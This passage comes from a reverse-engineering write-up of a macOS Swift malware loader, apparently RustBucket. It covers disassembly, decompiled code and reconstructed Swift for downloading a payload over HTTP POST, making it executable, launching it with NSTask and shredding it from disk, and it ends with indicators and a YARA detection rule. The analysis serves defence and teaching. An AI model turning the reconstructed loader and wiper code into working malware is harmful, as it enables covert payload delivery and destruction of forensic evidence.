

Files saved with `Data.write` inherit standard non-executable permissions (`0644`). To run the Mach-O binary, the malware adjusts its mode:

- It loads `S_IRWXU` (`0700`, user read, write, execute).
- It loads `S_IRWXG` (`0070`, group read, write, execute).
- At `0x100002fe8`, `orr w21, w0, w19` combines both masks into `0770`.
- At `0x100003004`, it calls POSIX `chmod(path, 0770)`.

Equivalent Swift logic:

```swift
try? data.write(to: dropURL)
let mode = S_IRWXU | S_IRWXG // 0770
chmod(dropURL.path, mode_t(mode))
```

### Process execution through NSTask

From `0x100003010` onward, the binary launches the downloaded file:

```bash
otool -tv pd_arm64 | grep -A 45 "0000000100003010" | head -n 45
```

Terminal output:

```text
0000000100003014    ldr    x0, #0x527c ; Objc class ref: bad class ref
0000000100003018    bl     0x10000384c ; symbol stub for: _objc_allocWithZone
0000000100003020    ldr    x1, #0x5228 ; Objc selector ref: init
0000000100003024    bl     0x100003858 ; Objc message: -[x0 init]
0000000100003028    mov    x21, x0
...
0000000100003034    bl     0x1000036f0 ; symbol stub for: Swift.String._bridgeToObjectiveC() -> NSString
0000000100003040    ldr    x1, #0x5228 ; Objc selector ref: setLaunchPath:
0000000100003044    mov    x0, x21
0000000100003048    mov    x2, x19
000000010000304c    bl     0x100003858 ; Objc message: -[x0 setLaunchPath:]
...
000000010000309c    bl     0x10000372c ; symbol stub for: Swift.Array._bridgeToObjectiveC() -> NSArray
00000001000030b0    ldr    x1, #0x51b0 ; Objc selector ref: setArguments:
00000001000030b4    mov    x0, x21
00000001000030b8    mov    x2, x22
00000001000030bc    bl     0x100003858 ; Objc message: -[x0 setArguments:]
```



Although `otool` displays an unresolved `bad class ref` at `0x100003014`, the sequence of selectors makes the target clear: `alloc`, `init`, `setLaunchPath:`, `setArguments:`. This is Cocoa's `NSTask` class (known as `Process` in Swift). The malware sets the dropped binary as the launch path and forwards its command-line arguments.

### Execution delay and disk sanitization

At `0x1000030bc`, the binary launches the process and immediately cleans up the disk:

```bash
otool -tv pd_arm64 | grep -A 25 "00000001000030bc" | head -n 25
```

Terminal output:

```text
00000001000030bc    bl     0x100003858 ; Objc message: -[x0 setArguments:]
...
00000001000030d0    ldr    x1, #0x5180 ; Objc selector ref: launchAndReturnError:
00000001000030d4    sub    x2, x29, #0x78
00000001000030d8    mov    x0, x21
00000001000030dc    bl     0x100003858 ; Objc message: -[x0 launchAndReturnError:]
00000001000030e0    ldur   x22, [x29, #-0x78]
00000001000030e4    cbz    w0, 0x1000031a8
...
00000001000030f8    mov    w0, #0x3
00000001000030fc    bl     0x1000038a0 ; symbol stub for: _sleep
0000000100003100    mov    x0, x25
0000000100003104    mov    x1, x20
0000000100003108    bl     _$s2dd8wipeFileySbSSF
000000010000310c    tbnz   w0, #0x0, 0x100003178
0000000100003110    mov    w0, #0x1
0000000100003114    bl     0x1000038a0 ; symbol stub for: _sleep
```



1. **Process launch:** It calls `[NSTask launchAndReturnError:]` at `0x1000030dc`. If execution fails (`w0 == 0`), it branches away to an error handler.
2. **Startup delay:** At `0x1000030fc`, it calls `_sleep(3)`. This 3-second delay gives the child process time to map its Mach-O segments into memory and begin execution before any disk modifications occur.
3. **File wiping:** At `0x100003108`, it passes the file path to `dd.wipeFile(String)`. If the wipe returns false (for instance, if macOS still holds an active file lock during startup), the binary sleeps for 1 second (`_sleep(1)`) and retries the wipe loop.

By the time an investigator inspects the temporary directory, the dropped binary has already been shredded and deleted, leaving only an in-memory process running.

---

## Analyzing the binary in Ghidra

Command-line tools allowed us to reconstruct the attack flow, but decompilers like Ghidra help verify edge cases, inspect calling conventions, and decode inline constants.

### Navigating the decompiler output

Opening `pd_arm64` in Ghidra and going to address `0x1000026a4` brings up the entry point:



Ghidra demangles the Swift calls, labels the entry point, and tracks reference counts via `_swift_bridgeObjectRetain` and `_swift_bridgeObjectRelease`.

The decompiled C-like pseudocode appears as follows:



When reading decompiled Swift, keep three common artifacts in mind:

- **The `CONCAT44` artifact:** Decompilers sometimes struggle with register reuse in ARM64. When an argument register like `x0` holds a 32-bit return value from an earlier call and is later reused for a 64-bit pointer, Ghidra may generate expressions like `lVar7 = CONCAT44(...)`. This is a decompiler artifact, not intentional data packing.
- **Swift array count at offset `+0x10`:** In Swift's runtime ABI, offset `0x10` from an `Array` buffer holds the element count. The expression `if (*(ulong *)(lVar7 + 0x10) < 2)` corresponds directly to `CommandLine.arguments.count < 2`.
- **Software breakpoints:** Ghidra represents `brk #0x1` as `SoftwareBreakpoint(...)`. This instruction acts as an immediate trap and aborts execution when required conditions fail.

### Deconstructing network communication in downAndExec

Looking inside `dd::downAndExec` reveals how the HTTP transaction is configured:

```c
/* dd.downAndExec(Swift.String) -> Swift.Bool */

bool dd::downAndExec(String param_1)
{
  ...
  Foundation::URLRequest::init(url, (NSURLRequestCachePolicy)0x0, 60.0);
  EVar7.unknown = (undefined *)0x54534f50;
  Foundation::URLRequest::$set_httpMethod(this);
  ...
  local_90 = (undefined *)0x7770;
  local_88 = 0xe200000000000000;
  Encoding::$get_utf8(EVar7);
  ...
  Foundation::URLRequest::$set_httpBody(this);
  SVar16.bridgeObject = (void *)0x8000000100003d50;
  SVar16.str = (char *)0xd00000000000003f;
  Foundation::URLRequest::$setValue(SVar16, (URLRequest.conflict)0x6567412d72657355);
  pdVar8 = _dispatch_semaphore_create(0);
  ...
  _objc_msgSend(&_OBJC_CLASS_$_NSURLSession, "sharedSession");
  pNVar10 = Foundation::URLRequest::_bridgeToObjectiveC(UVar9);
  ...
  _objc_msgSend(UVar9.unknown, "dataTaskWithRequest:completionHandler:", pNVar10, aBlock);
  _objc_msgSend(UVar9.unknown, "resume");
  (extension_Dispatch)::__C::OS_dispatch_semaphore::wait();
  ...
  return (bool)uVar1;
}
```





The decompilation reveals several network indicators:

1. **Hexadecimal immediate values (ASCII constants):**
   In 64-bit architectures, short strings are often stored as integer constants inside registers rather than as pointers to memory:
   - `0x54534f50` decodes in ASCII (little-endian) to `POST`.
   - `0x6567412d72657355` decodes to `User-Age` (`User-Agent` header key), assigning the legacy Windows XP Internet Explorer string identified in Part 1.
   - `0x7770` decodes to `pw`. This two-byte string is the POST body and acts as an authorization handshake. If an analyst sends a GET request or a POST without `pw`, the server returns an empty or dummy response.
2. **Network timeouts:**
   `Foundation::URLRequest::init(url, 0x0, 60.0)` sets a 60-second timeout and uses the standard protocol cache policy.
3. **Dispatch semaphores:**
   Because `URLSession.shared.dataTask` runs asynchronously on a background queue, the malware creates a Grand Central Dispatch semaphore initialized to `0` via `_dispatch_semaphore_create(0)`. It calls `resume()` to start the transfer and immediately calls `wait()` to park the main thread until the callback signals completion.

Reconstructed Swift logic:

```swift
func downAndExec(urlString: String) -> Bool {
    guard let url = URL(string: urlString) else { return false }

    var request = URLRequest(url: url, cachePolicy: .useProtocolCachePolicy, timeoutInterval: 60.0)
    request.httpMethod = "POST"
    request.httpBody = "pw".data(using: .utf8)
    request.setValue("mozilla/4.0 (compatible; msie 8.0; windows nt 5.1; trident/4.0)", forHTTPHeaderField: "User-Agent")

    var success = false
    let semaphore = DispatchSemaphore(value: 0)

    let task = URLSession.shared.dataTask(with: request) { data, response, error in
        // completion logic executed in closure 1
        semaphore.signal()
    }

    task.resume()
    semaphore.wait()

    return success
}
```

### The multi-tier wipe routine in closure 1

Inspecting `closure #1` in Ghidra shows the class reference that `otool` labeled as unresolved:

```c
puVar12 = &_OBJC_CLASS_$_NSTask;
```

This confirms the malware uses `NSTask`.

Following process execution, the code contains a cascade of retry checks:

```c
_sleep(3);
bVar2 = dd::wipeFile(SVar23);
if (!bVar2) {
  _sleep(1);
  bVar2 = dd::wipeFile(SVar23);
  if (!bVar2) {
    _sleep(1);
    bVar2 = dd::wipeFile(SVar23);
    if (!bVar2) {
      _sleep(1);
      bVar2 = dd::wipeFile(SVar23);
      if (!bVar2) {
        _sleep(1);
        bVar2 = dd::wipeFile(SVar23);
        if (!bVar2) {
          _sleep(1);
        }
      }
    }
  }
}
*puVar1 = 1;
(extension_Dispatch)::__C::OS_dispatch_semaphore::signal();
```

If the initial wipe fails, the routine enters a five-step retry ladder, pausing for 1 second between attempts. Once finished, it updates the success flag (`*puVar1 = 1`) and calls `semaphore.signal()` to unblock the main thread.

### Reversing the secure shredder in dd.wipeFile

At address `0x100002730`, `dd::wipeFile` does not merely call `unlink()` to delete the directory entry. It overwrites the contents of the file on disk first:

```c
/* dd.wipeFile(Swift.String) -> Swift.Bool */

bool dd::wipeFile(String param_1)
{
  ...
  CVar9 = Swift::String::get_utf8CString(param_1);
  pFVar10 = _fopen(CVar9.unknown + 0x20, "wb");
  ...
  if (pFVar10 != (FILE *)0x0) {
    _fseek(pFVar10, 0, 2);      // Seek to SEEK_END
    lVar11 = _ftell(pFVar10);   // Measure total file size
    lVar2 = lVar11;
    if (0xfffff < lVar11) {     // Limit overwrite size to 1 MB
      lVar2 = 0x100000;
    }
    ...
    _Var12 = Swift::Array::_allocateBufferUninitialized(lVar11, ...);
    *(undefined8 *)(_Var12.unknown + 0x10) = 0x400; // 1024 bytes (1 KB buffer)
    _bzero(_Var12.unknown + 0x20, 0x400);
    _fseek(pFVar10, 0, 0);      // Rewind to SEEK_SET
    ...
    do {
      uVar14 = 0;
      do {
        local_68 = 0;
        _swift_stdlib_random(&local_68, 8); // Generate random bytes
        ...
        _Var12.unknown[uVar14 + 0x20] = (char)uVar5;
        uVar14 = uVar14 + 1;
      } while (uVar14 != 0x400);
      
      _fwrite(_Var12.unknown + 0x20, 0x400, 1, pFVar10); // Overwrite disk sector
      lVar11 = lVar11 + 1;
    } while (bVar7);
    
    _fclose(pFVar10);
    _swift_bridgeObjectRelease(_Var12.unknown);
  }
  CVar9 = Swift::String::get_utf8CString(param_1);
  iVar8 = _unlink(CVar9.unknown + 0x20); // Remove directory entry
  _swift_release(CVar9.unknown);
  return iVar8 == 0;
}
```

The wiping routine works in three stages:

1. **Size measurement and limit:** It opens the target with `fopen(path, "wb")`, moves to the end of the file using `fseek(file, 0, SEEK_END)`, and queries the size with `ftell`. If the file exceeds 1 MB (`0x100000`), it caps the overwrite size at 1 MB. This prevents the process from stalling if the payload is unusually large.
2. **Random data overwrite:** It allocates a 1024-byte buffer, rewinds to the beginning of the file, and fills the buffer with random data using `_swift_stdlib_random`. It writes these random chunks sequentially over the file contents using `fwrite`.
3. **Directory removal:** After closing the file handle, it calls `unlink()` to remove the inode from the filesystem.

Because the underlying blocks are filled with random noise before unlinking, standard file recovery tools cannot carve the payload from unallocated space.

Reconstructed Swift logic:

```swift
func wipeFile(atPath path: String) -> Bool {
    guard let file = fopen(path, "wb") else {
        return unlink(path) == 0
    }

    fseek(file, 0, SEEK_END)
    var size = ftell(file)
    if size > 0x100000 { // 1 MB ceiling
        size = 0x100000
    }

    var buffer = [UInt8](repeating: 0, count: 1024)
    fseek(file, 0, SEEK_SET)

    let blocks = (size + 1023) / 1024
    for _ in 0..<blocks {
        for i in 0..<1024 {
            buffer[i] = UInt8.random(in: 0...255)
        }
        fwrite(&buffer, 1024, 1, file)
    }

    fclose(file)
    return unlink(path) == 0
}
```

---

## Detection engineering and indicators of compromise

Bringing all components together, we have the complete execution chain:



1. The first-stage dropper launches `pd_arm64` with a remote URL passed as `argv[1]`.
2. The loader detaches from the terminal with `setpgrp()`.
3. It sends an HTTP POST request containing `pw` and an Internet Explorer User-Agent to the specified URL.
4. If the server responds with executable data, the malware writes the payload into `$TMPDIR/<random-UUID>`.
5. It sets execution permissions to `0770` via `chmod`.
6. It starts the new binary using `NSTask`.
7. It pauses for 3 seconds, overwrites the on-disk binary with random data in 1024-byte blocks, and calls `unlink()` to remove the file.

### Host and network indicators

Host indicators:

- Child processes executing directly from user temporary paths matching `/var/folders/*/*/*-*-*-*-*`.
- Calls to `setpgrp()` immediately upon process start to disconnect from the terminal.
- File modification sequences where a newly written binary receives `chmod 0770`, followed shortly by write activity and unlinking.

Network indicators:

- Outbound HTTP POST requests with a 2-byte body containing `pw`.
- Outbound HTTP requests from non-browser processes using the User-Agent string `mozilla/4.0 (compatible; msie 8.0; windows nt 5.1; trident/4.0)`.

### YARA detection rule

The following YARA rule hunts for macOS binaries that combine this specific legacy User-Agent string with the execution and wiping behaviors seen in this campaign:

```yara
rule APT_macOS_RustBucket_Behavioral_Indicators {
    meta:
        description = "Hunting rule for macOS RustBucket loaders and drop-and-execute variants"
        date = "2026-09-18"
        malware_family = "RustBucket"

    strings:
        // C2 User-Agent anomaly (Legacy IE on macOS)
        $ua_anom_01 = "msie 8.0; windows nt 5.1" ascii nocase
        $ua_anom_02 = "trident/4.0" ascii nocase

        // Subprocess spawning via Cocoa NSTask APIs
        $task_sel_01 = "setLaunchPath:" ascii
        $task_sel_02 = "launchAndReturnError:" ascii
        $task_sel_03 = "setArguments:" ascii

        // File-handling and staging indicators
        $file_01 = "temporaryDirectory" ascii
        $file_02 = "defaultManager" ascii
        $file_03 = "appendingPathComponent" ascii

        // Anti-forensic wiping primitives
        $wipe_01 = "swift_stdlib_random" ascii
        $wipe_02 = "_unlink" ascii

        // Swift execution scaffolding
        $swift_cmd = "CommandLine" ascii
        $swift_sem = "OS_dispatch_semaphore" ascii

    condition:
        // Mach-O Magic Numbers: 64-bit LE/BE or FAT Universal
        (
            uint32(0) == 0xfeedfacf or 
            uint32(0) == 0xcffaedfe or 
            uint32(0) == 0xbebafeca
        )
        and
        (
            // Direct hit: Legacy MSIE 8.0 User-Agent inside a macOS Mach-O
            1 of ($ua_anom_*) or

            // Behavioral match: Temp path resolution, process spawning, wiping, and Swift runtime
            (
                2 of ($task_sel_*) and
                2 of ($file_*) and
                1 of ($wipe_*) and
                all of ($swift_*)
            )
        )
}
```

Analyzing this sample demonstrates how modern macOS malware combines high-level Swift runtime features with low-level POSIX and Cocoa APIs. By querying symbol tables and following assembly instructions, you can identify what an executable is designed to do before running it in a lab.
